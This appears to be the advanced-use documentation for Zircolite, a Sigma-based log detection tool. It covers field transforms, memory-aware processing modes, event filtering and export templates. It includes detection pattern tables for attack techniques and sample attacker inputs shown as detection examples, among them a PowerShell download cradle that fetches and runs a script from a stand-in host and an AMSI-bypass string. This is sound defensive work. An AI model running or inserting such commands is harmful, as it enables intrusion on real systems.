

# Advanced Use

## Field Transforms

A transform is a small Python function run against a field's value as the event is
flattened, in a [RestrictedPython](https://restrictedpython.readthedocs.io/) sandbox. It
can decode data (Base64, hex, URL-encoding), extract IOCs, categorise a value, or flag an
attack technique — and it can write the result to a **new** field instead of replacing the
original, so the evidence stays intact.

Zircolite ships 55 transforms across 11 categories. They are defined in
`config/config.yaml`; most of the code lives in `config/transforms/`.

### Enabling transforms

Nothing runs unless it is switched on. Two settings in `config/config.yaml` control it:

```yaml
transforms_enabled: true

enabled_transforms:
  - proctitle                # Auditd
  - cmd
  # - CommandLine_b64decoded
  # - Image_LOLBinMatch
```

Or enable them from the command line, by category:

```bash
python3 zircolite.py --transform-list                       # show categories
python3 zircolite.py -e logs/ --transform-category commandline --transform-category process
python3 zircolite.py -e logs/ --all-transforms              # everything
```

> [!NOTE]
> `--all-transforms` and `--transform-category` are not the same switch at two scales.
> `--all-transforms` also **ignores `source_condition`**, so every transform runs whatever
> the input format is; `--transform-category` respects it. Since no shipped transform
> lists `xml_input` or `csv_input`, `--transform-category` is a no-op on XML and CSV input
> — use `--all-transforms` there. The two cannot be combined.

### Defining a transform

Each transform is attached to a field and holds either inline code (`type: python`) or a
reference to a file (`type: python_file`):

```yaml
transforms:
  Image:
    - info: "Extract executable name from Image path"
      type: python_file
      file: image_exename.py
      alias: true
      alias_name: Image_ExeName
      source_condition: [evtx_input, json_input]
      enabled: true
```

Almost every shipped transform is a `python_file`. `CommandLine_b64decoded` is the one
kept inline as a worked example of `type: python`; the identical code also ships as
`config/transforms/commandline_b64decoded.py`, and a test keeps the two in step.

| Key | Purpose |
|-----|---------|
| `info` | Short description |
| `type` | `python` (inline `code:`) or `python_file` (load `file:` from disk) |
| `code` | Inline code, with `type: python` |
| `file` | Path to a `.py` file, relative to `transforms_dir`, with `type: python_file` |
| `alias` | `true` → write to a new field; `false` → replace the original value |
| `alias_name` | Name of the new field when `alias: true` |
| `source_condition` | Input types this transform applies to |
| `enabled` | Whether the transform is active |

**Source conditions:** `evtx_input`, `json_input`, `json_array_input`, `xml_input`,
`csv_input`, `db_input`, `sysmon_linux_input`, `auditd_input`, `evtxtract_input`.

`transforms_dir` defaults to `transforms/` **relative to the directory holding the config
file** — so with the shipped `config/config.yaml` that is `config/transforms/`, but with
`-c /opt/zircolite/my.yaml` it is `/opt/zircolite/transforms/`. An absolute path works
too.

### Writing transform functions

The function must be named `transform` and take a single `param` — the field value,
always a string.

**Available in the sandbox:** a subset of Python built-ins (`len`, `int`, `str`, …); the
modules `re`, `base64`, `chardet` and `math`; `dict[k] = v` / `list[i] = v` writes; and
augmented assignments (`+=`, `-=`, …).

**Blocked:** file I/O, network, system calls, and writes to arbitrary object attributes.

Develop against the tester, which uses the exact same sandbox:

```bash
python config/transform_tester.py config/transforms/image_exename.py "C:\Windows\cmd.exe"
python config/transform_tester.py my_transform.py --interactive
python config/transform_tester.py --list-builtins
```

Four things worth getting right:

- **Return an empty string when nothing matches.** It makes `!= ''` a usable filter.
- **Prefer `alias: true`.** Replacing a value destroys evidence.
- **Keep it fast.** Transforms run on every event.
- **Scope with `source_condition`** so a transform only runs where it makes sense.

### The catalogue

Multi-finding transforms join their results with `|`. Many cap the output at the first
2–4 findings (20 for `ScriptBlockText_NetworkIOCs`), so their value is a sample rather
than the complete set — but the extraction transforms that can produce the most output
are uncapped, including `CommandLine_URLs`, `CommandLine_RegistryPaths`,
`CommandLine_Extracted_Creds`, `CommandLine_HexStrings` and the four `*_b64decoded`.
Where the distinction matters, check the transform's source in `config/transforms/`.

#### Auditd (`auditd`)

These two replace the original value rather than adding a field.

| Field | Produces |
|-------|----------|
| `proctitle` | Hex-encoded proctitle decoded to ASCII |
| `cmd` | Hex-encoded cmd decoded to ASCII |

#### Base64 (`base64`)

| Alias field | Produces |
|-------------|----------|
| `CommandLine_b64decoded` | Decoded Base64 found in the command line |
| `ScriptBlockText_b64decoded` | Decoded Base64 found in a PowerShell script block |
| `Payload_b64decoded` | Decoded Base64 found in a payload field |
| `ServiceFileName_b64decoded` | Decoded Base64 found in a service file name |

All four emit the sentinel `b64_detected_cannot_decode` when Base64 is present but will
not decode — an empty result means no Base64 was found at all.

#### Command line (`commandline`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `CommandLine_URLs` | HTTP/HTTPS/FTP URLs | the URLs themselves |
| `CommandLine_RegistryPaths` | Registry key paths | the paths themselves |
| `CommandLine_Length` | Length bucket | `SHORT:` `NORMAL:` `LONG:` `VERY_LONG:` `EXTREME:` + the length |
| `CommandLine_EntropyScore` | Shannon entropy | `LOW:` `MEDIUM:` `NORMAL:` `HIGH:` `VERY_HIGH:` + the score |
| `CommandLine_XORIndicators` | XOR operations and keys | `BXOR_OP` `BYTE_XOR` `XOR_LOOP` `XOR_KEY:<key>` |
| `CommandLine_AMSIBypass` | AMSI bypass techniques | `AMSI_REF` `AMSI_INIT_FAILED` `AMSI_CONTEXT` `AMSI_SCAN_BUFFER` `AMSI_REFLECTION` `AMSI_DLL` |
| `CommandLine_HexStrings` | Hex-encoded strings | `0x_HEX` `CONT_HEX` `DECODED:<text>` |
| `CommandLine_EnvVarObfuscation` | Environment-variable abuse | `ENV_CHAR_EXTRACT` `MULTI_ENV_VAR:<n>` `ENV:<VAR>` |
| `CommandLine_DownloadCradle` | Download cradles | `DOWNLOADSTRING` `DOWNLOADFILE` `DOWNLOADDATA` `INVOKE_WEBREQUEST` `INVOKE_RESTMETHOD` `WEBCLIENT` `BITSTRANSFER` `CERTUTIL_DOWNLOAD` `BITSADMIN_DOWNLOAD` `CURL_WGET` |
| `CommandLine_EvasionTechniques` | Hollowing, injection, ETW | `PROCESS_HOLLOWING` `REFLECTIVE_DLL` `TOKEN_MANIPULATION` `MEMORY_ALLOC` `REMOTE_THREAD` `SYSCALL` `ETW_BYPASS` |
| `CommandLine_LateralMovement` | Remote-execution tooling | `LATERAL:` + `PSEXEC` `REMOTE_SERVICE` `WMI` `WINRM` `RDP` `SMB` `SSH` `DCOM` `AT_REMOTE` |
| `CommandLine_DataStaging` | Collection before exfiltration | `STAGING:` + `ARCHIVE` `BULK_COPY` `DB_DUMP` `EMAIL_COLLECT` `FILE_HUNT` `AD_DUMP` |
| `CommandLine_C2Indicators` | C2 framework fingerprints | `C2:` + `COBALT_STRIKE` `METASPLOIT` `SLIVER` `EMPIRE` `HAVOC` `COVENANT` `GENERIC_PIPE` |
| `CommandLine_PersistenceCategory` | Persistence mechanisms | `PERSIST:` + `SCHED_TASK` `SERVICE` `REG_RUN` `WMI_SUB` `STARTUP_FOLDER` `DLL_SEARCH` `CRON` `SYSTEMD` `LAUNCH_AGENT` `BOOT` |
| `CommandLine_ReconIndicators` | Reconnaissance commands | `RECON:` + `SYSINFO` `NETWORK` `USER_ENUM` `DOMAIN` `SHARE` `PROCESS` `SECURITY` |
| `CommandLine_ConcatDeobfuscate` | Concatenation obfuscation | `DEOBF:CARET` `DEOBF:CONCAT:<reconstructed>` `DEOBF:FORMAT_OP` `DEOBF:BACKTICK` `DEOBF:ENV_SUBSTR` |
| `CommandLine_CryptoMining` | Mining pools, wallets, miners | `MINING:PROTOCOL` `MINING:POOL:<name>` `MINING:TOOL:<name>` `MINING:MINER_ARGS` and `MINING:WALLET:` + `MONERO` `BITCOIN` `ETHEREUM` |
| `CommandLine_InjectionTechnique` | Injection technique class | `INJECT:` + `CLASSIC` `ALLOC_WRITE` `HOLLOWING` `APC` `THREAD_HIJACK` `CALLBACK` `MAPPING` `ETW_BYPASS` `SHELLCODE_ALLOC` |

#### Credentials (`credentials`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `CommandLine_Extracted_Creds` | Credentials passed to `net`, `wmic`, `psexec` | the matched credential strings |

#### Process (`process`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `Image_ExeName` | — | the executable name, without the path |
| `Image_LOLBinMatch` | Living-off-the-land binaries | `LOLBIN:<name>` |
| `Image_TyposquatDetect` | Typosquatted process names | `TYPOSQUAT:<target>(<techniques>)`, techniques being a comma-separated selection of `HOMOGLYPH` `CHAR_ADD` `CHAR_OMIT` `CHAR_SWAP` |
| `Image_PathAnomaly` | Execution from odd locations | `TEMP_DIR` `WINDOWS_TEMP` `USER_TEMP` `APPDATA` `DOWNLOADS` `USER_DESKTOP` `USER_MEDIA_DIR` `RECYCLE_BIN` `PUBLIC_PROFILE` `PERFLOGS` |
| `Image_StagingDirectory` | Known staging directories | `STAGING:` + `ProgramData` `WindowsTemp` `RootTemp` `PerfLogs` `PublicProfile` `RecycleBin` `UNC_Path` `LinuxTmp` `DevShm` `VendorFolder` |
| `Image_MasqueradeDetect` | System binaries in the wrong directory | `MASQUERADE:<exe_name>` |
| `ParentImage_ExeName` | — | the parent executable name |
| `ParentImage_SpawnAnomaly` | Suspicious parents | `ANOMALY:` + `OFFICE_SPAWN` `BROWSER_SPAWN` `PDF_SPAWN` `SCRIPT_CHAIN` `WMI_SPAWN` `TASK_SPAWN` `JAVA_SPAWN` |

`Image_TyposquatDetect` whitelists ~170 legitimate Windows executables and compares
against 31 impersonation targets. Targets are five characters or more, because at shorter
lengths an edit distance of one matches almost anything; short names such as `cmd`, `dwm`,
`smss` and `wmic` are whitelisted instead, so they are never flagged themselves.

#### PowerShell (`powershell`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `ScriptBlockText_ObfuscationIndicators` | Obfuscation constructs | `CHAR_SUBST` `STR_CONCAT` `JOIN_OP` `FORMAT_STR` `VAR_SUBST` `ENC_CMD` `GZIPSTREAM` `FROMBASE64` `IO_COMPRESSION` `DEFLATESTREAM` `MEMORYSTREAM` |
| `ScriptBlockText_XORPatterns` | XOR keys and loops | `XOR_KEY:<key>` `XOR_LOOP` `BYTE_ARRAY_XOR` `COMMON_XOR_KEY:<key>` |
| `ScriptBlockText_ReflectionAbuse` | .NET reflection abuse | `ASSEMBLY_LOAD` `DYNAMIC_LOAD` `TYPE_REFLECTION` `INVOKE_METHOD` `GET_MEMBER` `DELEGATE_CREATION` |
| `ScriptBlockText_ShellcodeIndicators` | Shellcode execution | `EXEC_MEMORY_ALLOC` `KERNEL32_REF` `NTDLL_REF` `CREATE_THREAD` `NOP_SLED` `MEMORY_COPY` `POINTER_OP` |
| `ScriptBlockText_NetworkIOCs` | Embedded IOCs | `IP:<addr>` `URL:<url>` `DOMAIN:<domain>` |
| `ScriptBlockText_StagerDetect` | Stager patterns | `STAGER:` + `REFLECTION_LOAD` `STAGED_IEX` `INMEMORY_NET` `AMSI_THEN_EXEC` `APPDOMAIN` `RUNSPACE` `CLM_BYPASS` `WIN32_API` |
| `ScriptBlockText_PackerIndicators` | Packers and crypters | `PACKER:` + `GZIP` `DEFLATE` `MULTI_ENCODE` `NESTED_IEX` `CUSTOM_ENCODING` `REVERSAL` `VAR_SUBSTITUTION` `INVOKE_OBFUSCATION` `SECURESTRING` |

#### Network (`network`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `QueryName_TLD` | — | the top-level domain |
| `QueryName_EntropyScore` | DGA candidates | the entropy score as a number (`0` when not applicable) |
| `QueryName_TyposquatDetect` | Typosquatted well-known domains | `TYPOSQUAT_<class>:<target>(<techniques>)` and `SUSPICIOUS_TLD:<tld>`. Classes: `GOV_US` `GOV_UK` `GOV_EU` `GOV_FR` `GOV_DE` `BANK` `CRYPTO` `TECH` `EMAIL` `CLOUD` `SECURITY` `SHIPPING`. Techniques: `HOMOGLYPH` `CHAR_SWAP` `CHAR_MANIP` `AFFIX` `EMBEDDED` `SIMILAR`. |
| `QueryName_SubdomainAnalysis` | Tunnelling-shaped subdomains | `DNS:DEEP_SUB:<depth>` `DNS:LONG_SUB:<length>` `DNS:HEX_SUBDOMAIN` `DNS:B64_SUBDOMAIN` `DNS:HIGH_ENTROPY_SUB` `DNS:NUMERIC_SUB` — in that order, and only the first four survive the cap |
| `DestinationIp_ObfuscationCheck` | Hex/octal/decimal IP encoding | `OBFUSCATED_IP:<value>` |
| `DestinationPort_Category` | Port purpose | 58 labels — the named services (`HTTP` `HTTPS` `SMB` `RDP` `SSH` `WINRM` `KERBEROS` `LDAP` `MSSQL` `DOCKER` `METASPLOIT_DEFAULT` …) plus the catch-alls `WELL_KNOWN`, `EPHEMERAL` and `HIGH_PORT`, which is what most traffic lands on. See `config/transforms/destinationport_category.py` for the full map. |

#### File (`file`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `TargetFileName_URLDecoded` | — | the URL-decoded path |
| `TargetFileName_DoubleExtension` | Double-extension tricks | `DOUBLE_EXT:<ext1>.<ext2>`, e.g. `DOUBLE_EXT:pdf.exe` |
| `TargetFileName_SensitiveFile` | Access to security-sensitive files | `SENSITIVE:` + `CREDENTIAL_STORE` `NTDS` `SSH_KEY` `CERT_PRIVATE` `BROWSER_DATA` `CONFIG` `MEMORY_DUMP` |

#### User and authentication (`user`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `User_Name` | — | the username, without the domain |
| `User_Domain` | — | the domain part of the user field |
| `LogonType_Description` | — | `SYSTEM` `INTERACTIVE` `NETWORK` `BATCH` `SERVICE` `UNLOCK` `NETWORK_CLEARTEXT` `NEW_CREDENTIALS` `REMOTE_INTERACTIVE` `CACHED_INTERACTIVE` `CACHED_REMOTE_INTERACTIVE` `CACHED_UNLOCK`, or `UNKNOWN:<value>` |

#### Hash (`hash`)

| Alias field | Produces |
|-------------|----------|
| `Hash_MD5` | The MD5 value out of Sysmon's `Hashes` field |
| `Hash_SHA256` | The SHA256 value out of Sysmon's `Hashes` field |

#### Registry (`registry`)

| Alias field | Detects | Values |
|-------------|---------|--------|
| `TargetObject_SuspiciousRegistry` | Persistence keys | `RUN_KEY` `SERVICE_KEY` `IFEO` `APPINIT_DLLS` `WINLOGON` `COM_HIJACK` `SCHED_TASK` `SECURITY_POLICY` |

### Transforms in action

```
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://evil.com/mal.ps1')"
```
`CommandLine_DownloadCradle` → `DOWNLOADSTRING|WEBCLIENT` · `CommandLine_URLs` → `http://evil.com/mal.ps1`

```
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```
`CommandLine_AMSIBypass` → `AMSI_REF|AMSI_REFLECTION`

```
C:\Users\Public\svch0st.exe
```
`Image_TyposquatDetect` → `TYPOSQUAT:svchost(HOMOGLYPH)`

```
micros0ft.xyz
```
`QueryName_TyposquatDetect` → `TYPOSQUAT_TECH:microsoft(HOMOGLYPH,CHAR_SWAP)|SUSPICIOUS_TLD:xyz`

### Querying transform results

Alias fields are ordinary columns, so Sigma rules can match them and SQL can query them.
Keep the database with `--dbfile events.db`:

```sql
-- Obfuscated commands: long and high-entropy
SELECT * FROM logs
WHERE CommandLine_Length LIKE 'EXTREME%' AND CommandLine_EntropyScore LIKE 'VERY_HIGH%';

-- Lateral movement, in order
SELECT SystemTime, CommandLine, CommandLine_LateralMovement FROM logs
WHERE CommandLine_LateralMovement != '' ORDER BY SystemTime;

-- Which injection techniques appear, and how often
SELECT CommandLine_InjectionTechnique, COUNT(*) AS n FROM logs
WHERE CommandLine_InjectionTechnique != '' GROUP BY 1 ORDER BY n DESC;
```

The same fields appear in `detected_events.json`, under each detection's `matches`:

```bash
# Every LOLBin seen, deduplicated
jq -r '[.[].matches[].Image_LOLBinMatch // empty] | unique | .[]' detected_events.json

# C2 indicators with context, as CSV
jq -r '.[].matches[] | select(.CommandLine_C2Indicators // "" != "")
    | [.SystemTime, .Computer, .User, .Image, .CommandLine_C2Indicators] | @csv' detected_events.json
```

## Working with Large Datasets

By default each log file is processed in its own database, which keeps peak memory
proportional to the largest file rather than to the corpus.

### Automatic processing optimization

Given several files, Zircolite measures them against available RAM and CPU, picks a
database mode, and decides whether parallel processing is worth it:

```shell
python3 zircolite.py --evtx ./logs/ --ruleset rules/rules_windows_merged.json
```

```
[+] Analyzing workload...
    [>] Files       4 (478.2 MB total, avg 119.6 MB)
    [>] System      33.7 GB RAM available, 10 CPUs
    [>] DB Mode     PER-FILE
                    Few large files detected (4 files, avg 119.6 MB)
    [>] Parallel    ENABLED (4 workers)
```

**Database mode.** The rules are tried in order; the first match decides.

| # | Condition | Mode | Reason |
|---|-----------|------|--------|
| 1 | Single file | Per-file | Nothing to unify |
| 2 | Less than 2 GB RAM available | Per-file | Safer when memory-constrained |
| 3 | Estimated footprint > 85% of available RAM | Per-file | Avoid running out of memory |
| 4 | 10+ files averaging 5 MB or less | Unified | Less overhead, enables cross-file correlation |
| 5 | Fewer than 5 files averaging 50 MB or more | Per-file | Memory-efficient |
| 6 | 8 GB+ RAM and 3+ files | Per-file | Leaves the files free to run in parallel |
| 7 | Any other run of 10+ files | Unified | Enables cross-file correlation |
| 8 | Anything else | Per-file | Default |

Rule 3 compares an *estimate*, not the size on disk: an in-memory SQLite database is
several times larger than the log it was built from, so the total is multiplied by 3.5 to
5.0 depending on average file size. In practice it triggers somewhere between RAM/4 and
RAM/6 of input.

**Parallel processing.** Also tried in order:

| # | Condition | Parallel | Reason |
|---|-----------|----------|--------|
| 1 | Single file | Disabled | No benefit |
| 2 | Less than 1 GB RAM available | Disabled | Safety |
| 3 | Fewer than 2 workers affordable | Disabled | Not enough resources to parallelise |
| 4 | Estimated footprint of the **largest** file > 60% of usable RAM | Disabled | Prevent running out of memory |
| 5 | Multiple files, enough memory | Enabled | Faster |

The memory test uses the largest single file rather than the average, because one
outsized file is what actually exhausts a worker.

**Overriding it:**

```shell
python3 zircolite.py --evtx logs/ --ruleset rules.json --no-auto-mode       # keep per-file
python3 zircolite.py --evtx logs/ --ruleset rules.json --unified-db         # one database
python3 zircolite.py --evtx logs/ --ruleset rules.json --no-parallel
python3 zircolite.py --evtx logs/ --ruleset rules.json --parallel-workers 8
python3 zircolite.py --evtx logs/ --ruleset rules.json --parallel-memory-limit 80
```

### Parallel processing

Workers are threads, which suits the I/O-bound work of decoding EVTX. Beyond picking a
worker count, the parallel path:

- **Schedules largest-first**, so big files start early and small ones fill the gaps at
  the end.
- **Throttles for real** — when memory pressure exceeds `--parallel-memory-limit`
  (85% by default), new submissions are deferred until in-flight work finishes and memory
  drops back.
- **Recalibrates** after the first file completes, blending the measured memory-per-file
  ratio into the estimate for the rest.
- **Reads the field-mappings config once** and hands each worker a copy, rather than
  re-reading it per worker.
- **Rebuilds the table between files**, so each input is typed by its own events. See
  [Internals → Typing and collation](Internals.md#typing-and-collation) for why sharing a
  schema across files silently costs detections.
- **Writes results as each file completes**, except in `--csv` mode, where the header has
  to cover every column and results are therefore buffered to the end.

### The streaming pipeline

Every input format is read the same way: extraction, flattening and insertion happen in
a single pass, with no intermediate files. What is selectable is how the database is
organised across files — see [Internals → Processing modes](Internals.md#processing-modes).

`--keepflat` writes the flattened events to `flattened_events_<RAND>.json` in the working
directory as they are processed. The contents are JSONL — one event per line — despite the
extension. It contains only events that were actually processed: anything dropped by early
event filtering or by `--after`/`--before` is not there. Combine with `--no-event-filter`
to capture everything.

### Memory usage

Peak memory is measured throughout the run with `psutil` and reported in the summary
panel. In per-file mode each database is released once its file is done, so the peak
tracks the largest file rather than the corpus.

Other ways to go faster: let auto-mode do its work, use [file filters](#file-filters) to
skip irrelevant files, drop `--no-recursion` in when you do not need subdirectories, and
leave early event filtering on.

### Early event filtering

Zircolite can discard events **before** flattening and insertion, based on **Channel**
and **EventID**, so only events that could match some rule's log source are loaded.

**Sysmon for Linux and auditd are exempt** — they carry no Channel or EventID — unless
`event_filter.filter_all_sources` is set. Every other format (EVTX, JSON, JSON array, CSV,
XML, EVTXtract, and a saved database) goes through the filter, because any of them can
carry Windows-shaped events. An event with no usable Channel is kept.

> [!IMPORTANT]
> The filter only engages when the ruleset yields channels. The shipped Windows rulesets
> bound over 99% of their rules, but **no rule in `rules_linux*.json` names a channel**, so
> with a Linux ruleset the filter reports `disabled` and every event is processed. That is
> correct behaviour, not a failure — there is simply nothing to filter on.

#### How the bounds are derived

When rules are loaded, each **Channel** in the ruleset is mapped to the set of **EventID**
values the rules on that channel can actually match.

Those eventIDs are read from each rule's **SQL**, not from its `eventid` metadata. The
metadata is collected from every detection group — including negated `filter:` blocks —
without regard to the rule's `condition`, so it is a bag of values rather than a set of
eventIDs the rule matches. A rule written as

```yaml
detection:
    selection:
        Channel: Security
    filter:
        EventID: 4624
    condition: selection and not filter
```

arrives carrying `eventid: [4624]` — the one eventID it *excludes*. Read as an allow-list,
the filter would admit only 4624, discard everything the rule is looking for, and the rule
would report nothing while looking perfectly healthy.

Reading the SQL means a channel is narrowed only on what can be proved. **Every
uncertainty leaves the channel unbounded**, because a wrong bound drops events at ingest
and costs detections, while a missing bound only costs a little speed. A channel stays
unbounded when the rule's SQL:

- constrains `EventID` under a `NOT`, where the listed values are the ones it refuses;
- has an `OR` branch that does not constrain `EventID` at all, so that branch can match
  anything;
- does not mention `EventID`, or constrains it in a form this cannot read (`BETWEEN`,
  `>`, `LIKE`);
- belongs to a **correlation** rule, whose subquery shape is deliberately not
  second-guessed.

A rule naming a channel but no eventID matches *any* eventID on that channel, so it marks
its own channel unbounded and leaves the others alone. This is what keeps alert counts
consistent whether you run one rule or the whole ruleset — bounding every channel by the
union of all rules' eventIDs would drop events a channel-only rule should have seen.

#### What gets discarded

An event is discarded when its Channel is claimed by no rule, or when that channel carries
a finite eventID set and the event's EventID is not in it. An event with no usable Channel,
or no usable EventID on a bounded channel, is **kept** — too little information to discard
it safely. Channel matching is case-insensitive.

The per-channel bounds do not apply in two cases. A rule constraining eventIDs but no
channel cannot be keyed by channel, so a ruleset containing one falls back to two
independent global axes, each filtering only when every rule constrains it. And a
correlation rule carries no channel metadata at all: its channel is read from the SQL
embedding the base rule's detection. If that names no channel either — pySigma emits
correlation queries without one when the logsource carried no pipeline — filtering is
switched off for the whole run rather than guessed at.

#### Configuration and reporting

Channel and EventID are read through configurable field paths, so pre-flattened and ECS
logs work as well as raw EVTX: `Event.System.Channel`, `Channel`, `winlog.channel`, and
the matching eventID paths. See `event_filter` in `config/config.yaml`.

At load time Zircolite reports what it will filter on:

```
[+] Event filter enabled: 36 channels, 34 EventID-bounded (214 channel/eventID pairs)
[+]   any EventID allowed on: Security, Windows PowerShell
```

The second line names the channels no rule narrowed — the reason those channels are not
being reduced.

The summary panel reports the filter whenever it was active, so a run that dropped nothing
is distinguishable from one where the filter never ran:

```
📊 Events   1,234,567  (412,003 filtered out — 75.0% match rate)
📊 Events   1,234,567  (0 filtered out — every event matched a rule's log source)
```

Events dropped by `--after`/`--before` are counted separately, on their own `Time range`
row, because the two filters act at different stages.

Disable the whole mechanism with `--no-event-filter`, or `enabled: false` in the config.

## Keeping Data Used by Zircolite

Several options keep the data behind the detections:

- `--dbfile <FILE>` writes the SQLite database to disk, so you can query the logs with SQL
  and find things the rules did not. In per-file mode each input gets its own file.
- `--keepflat` saves the flattened events as JSONL — only the events actually processed
  (see [the streaming pipeline](#the-streaming-pipeline)).
- `--hashes` adds an xxhash64 of the original log line to each event, for deduplication
  and tracking.
- **Indexes** make that database worth querying. `--add-index`, `--remove-index` and
  `--auto-index` are covered in [Usage → Database indexes](Usage.md#database-indexes).

## Filtering

### File filters

Some EVTX files are never touched by Sigma rules but are large all the same —
`Microsoft-Windows-SystemDataArchiver%4Diagnostic.evtx` is the classic example. Skipping
them up front avoids opening and decoding them at all. Four options do it: `--select`,
`--avoid`, `--file-pattern` and `--no-recursion` (see
[Input files and filtering](Usage.md#input-files-and-filtering) for the exact semantics).

```shell
# Only Sysmon logs
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --select sysmon

# Everything except the diagnostic archive
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --avoid systemdataarchiver

# Operational logs, but not Defender's
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --select operational --avoid defender

# A glob instead
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json --file-pattern "Security*.evtx"
```

> [!IMPORTANT]
> Both match the **filename only**, never the directory path. `--select HOST01` will not
> select `logs/HOST01/Security.evtx`, and `--avoid HOST02` will not exclude
> `logs/HOST02/` — it silently excludes nothing. Use `--file-pattern`, or point `--events`
> at the directory you actually want.

You no longer need these to gain the channel-level speedup —
[early event filtering](#early-event-filtering) derives that from the ruleset, per EventID
as well. File filters still earn their keep by skipping a file *before it is opened*,
which the event filter cannot do, and they are the only file-level reduction available for
Linux and auditd input.

### Time filters

`--after` / `-A` and `--before` / `-B` restrict processing to a time range. Both bounds
are inclusive and can be used independently.

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json \
    -A 2021-06-02T22:40:00 -B 2021-06-02T23:00:00
```

- The value must be `YYYY-MM-DDTHH:MM:SS`, 24-hour.
- The filter reads the field named by `--timefield` (`SystemTime` by default), falling
  back to the auto-detected timestamp field when that one is absent.
- Event timestamps are compared as instants, so epoch seconds or milliseconds, a trailing
  `Z`, an explicit UTC offset and a space instead of `T` are all understood.

### Rule filters

Some rules are noisy or slow on a particular dataset. `-R` / `--rulefilter` skips them by
title; repeat it for more. Comparison is **case-sensitive**, to avoid surprises:

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json -R MSHTA
```

To find out which rules are slow on *your* data, run with `--profile-rules` and read the
Rule Performance report — see
[Usage → Rule performance profiling](Usage.md#rule-performance-profiling).

### Limiting noisy rules

`--limit <N>` discards the results of any rule matching more than N events. The rule still
runs; only its output is dropped, which is what you want when forwarding to Splunk. The
count is **per input database** — per file by default, across the whole corpus only with
`--unified-db`. Use `-1` to disable.

## Templating and Formatting

Output can be reshaped with Jinja2 templates, for Splunk, ELK, Timesketch and others:

```shell
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json \
    --template templates/exportForSplunk.tmpl --templateOutput exportForSplunk.json
```

Pair one `--templateOutput` with each `--template` to write several at once. Two shortcuts
save the typing:

```shell
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json --timesketch
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json --navigator-output
```

`--timesketch` writes `timesketch-<RAND>.json`; `--navigator-output` writes
`navigator-<RAND>.json`, or a name you give it. The random suffix means repeated exports
do not overwrite each other.

### Available templates

| Template | Output | Use case |
|----------|--------|----------|
| `exportForSplunk.tmpl` | NDJSON | Splunk HEC or bulk import |
| `exportForSplunkWithRuleID.tmpl` | NDJSON | Splunk, with the rule ID for correlation |
| `exportForELK.tmpl` | NDJSON | Elasticsearch / ELK |
| `exportForZinc.tmpl` | Bulk JSON | OpenSearch/Elasticsearch bulk API — each record preceded by an `index` action line |
| `exportForTimesketch.tmpl` | NDJSON | Timesketch; shortcut `--timesketch` |
| `exportForZircoGui.tmpl` | JavaScript | Mini-GUI `data.js`, used by `--package` |
| `exportNDJSON.tmpl` | NDJSON | Generic: rule metadata plus event fields |
| `exportSummaryCSV.tmpl` | CSV | One row per rule, for triage |
| `exportForSARIF.tmpl` | JSON | [SARIF](https://sarifweb.azurewebsites.net/), for CI pipelines |
| `exportForAttackNavigator.tmpl` | JSON | [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) layer; shortcut `--navigator-output` |

### Append mode

Template output is overwritten on every run, so re-running over the same logs is
idempotent. `--template-append` accumulates instead, which is how you build a cumulative
feed:

```shell
python3 zircolite.py --evtx logs/ --ruleset rules/rules_windows_merged.json \
    --template templates/exportForSplunk.tmpl --templateOutput exportForSplunk.ndjson \
    --template-append
```

```yaml
output:
  templates:
    - template: templates/exportForSplunk.tmpl
      output: exportForSplunk.ndjson
  template_append: true
```

> [!WARNING]
> Append mode only suits **line-oriented** templates — everything in the table above that
> emits NDJSON or bulk JSON. The two that emit a **single JSON document**,
> `exportForAttackNavigator.tmpl` and `exportForSARIF.tmpl`, become invalid when a second
> document is concatenated onto the first.

## Mini-GUI



The Mini-GUI displays and searches results, entirely offline. It is built on
[DataTables](https://datatables.net/) and the
[SB Admin 2 theme](https://github.com/StartBootstrap/startbootstrap-sb-admin-2).

```shell
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json \
    --package --package-dir /path/to/output
```

`--package` produces `zircogui-output-<RAND>.zip`, holding everything needed, with
`index.html` at its root. Two things to know: a run with no detections skips package
creation and says so, and `--package-dir` must point at a directory that already exists —
Zircolite reports an error rather than writing the package somewhere you would not think
to look.

It needs `gui/zircogui.zip`, which Zircolite looks for beside the executable first and
then inside the binary itself — the standalone binaries carry a copy, so `--package` works
with nothing on disk but the executable. Dropping an updated `gui/zircogui.zip` next to
the binary replaces the built-in Mini-GUI without a rebuild.

To build it by hand instead, render `data.js` and drop it into the unpacked archive:

```shell
python3 zircolite.py --evtx sample.evtx --ruleset rules/rules_windows_merged.json \
    --template templates/exportForZircoGui.tmpl --templateOutput data.js
7z x gui/zircogui.zip
mv data.js zircogui/
```

Then open `zircogui/index.html` — the shipped archive unpacks under that directory, unlike
the one `--package` builds — and click a MITRE ATT&CK category or an alert level.

> [!WARNING]
> The Mini-GUI was not built to handle large datasets.

## Other Tools

The repository ships a few scripts of its own in `tools/`, documented in
[`tools/README.md`](https://github.com/wagga40/Zircolite/tree/master/tools):
`sigma-regression.py` runs the SigmaHQ regression suite against a ruleset, and the
benchmark scripts measure flattening and database performance.

Zircolite is also driven by third-party tooling:

- [KAPE](https://www.kroll.com/en/services/cyber-risk/incident-response-litigation-support/kroll-artifact-parser-extractor-kape)
  has a [module](https://github.com/EricZimmerman/KapeFiles/tree/master/Modules/Apps/GitHub).
- [Velociraptor](https://github.com/Velocidex/velociraptor) has an
  [artifact](https://docs.velociraptor.app/exchange/artifacts/pages/windows.eventlogs.zircolite/).
